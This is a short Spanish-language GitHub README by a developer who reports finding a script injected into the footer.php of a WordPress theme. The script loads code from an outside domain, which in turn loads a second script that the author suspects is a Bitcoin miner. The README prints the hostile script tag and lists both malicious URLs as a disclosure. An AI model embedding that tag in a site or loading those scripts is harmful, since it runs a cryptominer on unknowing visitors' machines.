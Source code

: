 # script-malicioso-templatemela-adorsy
Documentación sobre un script malicioso que encontré navegando en Wordpress

Trabajando junto con un amigo en un eCommerce, fuí alertado de la existencia de un Malware en la web que estábamos trabajando. La alerta vino del Antimalware en la PC de mi amigo, pensé que serí un falso negativo, pero revisando las llamadas de Red desde la consola del navegador, ví que es lo que sucedía.

Había un par scripts que tenían un comportamiento extraño por decir lo menos. El primero, `themera.js` llamaba a una página "https://themera.net/", la llamada estaba en el footer.php del Template elaborado por la empresa Templatemela. Concretamente en la plantilla Adorsy.

`<script type="text/javascript" src="//themera.net/embed/themera.js?id=76847"></script>`

Dentro de ese script se llamaba a otro `counter.js`, este último alojado en una web de Países Bajos "https://cleverjump.org/", al parecer había un Bitcoin Minner ese último script. https://urlscan.io/result/8f13ff7e-23f9-47dd-a8bb-c66eb2a76118 dejo los resultados de mi búsqueda. 

Actualmente (como pueden ver de hecho) no tengo tantos conocimientos para ir desarmando parte por parte el script y saber a ciencia cierta qué hace. Por eso lo dejo aquí en Git Hub como constancia de mi hallazgo.

Webs con los Script Maliciosos:
* https://cleverjump.org/counter.js
* https://themera.net/embed/themera.js?id=76847
